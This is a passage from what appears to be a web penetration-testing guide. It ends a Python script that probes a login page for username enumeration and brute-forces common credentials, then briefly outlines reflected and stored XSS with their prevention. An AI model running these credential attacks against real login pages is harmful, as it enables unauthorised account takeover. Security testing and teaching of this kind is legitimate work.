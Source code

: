 ```python
    # Analyze results for differences
    lengths = set(r['length'] for r in results.values())
    times = [r['time'] for r in results.values()]
    
    if len(lengths) > 1:
        print("[+] Possible username enumeration via response length differences")
        for username, data in results.items():
            print(f"    {username}: {data['length']} bytes")
    
    if max(times) - min(times) > 1.0:  # 1 second threshold
        print("[+] Possible username enumeration via timing differences")
        for username, data in results.items():
            print(f"    {username}: {data['time']:.2f} seconds")

# Example usage
if __name__ == "__main__":
    login_url = "https://example.com/login.php"
    
    # Test for default credentials
    test_default_credentials(login_url)
    
    # Test for username enumeration
    test_username_enumeration(login_url, ['admin', 'root', 'user', 'nonexistent'])
    
    # Perform limited brute force
    usernames = ['admin', 'administrator', 'root', 'user']
    passwords = ['password', 'admin123', '123456', 'qwerty', 'welcome']
    successful = brute_force(login_url, usernames, passwords)
    
    if successful:
        print("\n[+] Successful logins:")
        for username, password in successful:
            print(f"    {username}:{password}")
    else:
        print("\n[-] No successful logins found")
```

### 3.3 Cross-Site Scripting (XSS)

Exploiting applications that fail to properly sanitize user input that is reflected in output:

1. **Reflected XSS**:
   - Technique: Injecting scripts that are immediately returned to the user
   - Impact: Session theft, phishing, client-side attacks
   - Testing: Injecting script tags in parameters, headers, and forms
   - Prevention: Output encoding, Content Security Policy (CSP)

2. **Stored XSS**:
   - Technique: Injecting scripts that are stored and later displayed to users
   - Impact: Affects multiple users, persistent attacks
   - Testing: Submitting script payloads in stored content (comments, profiles)
   - Prevention: Input validation, output encoding, CSP
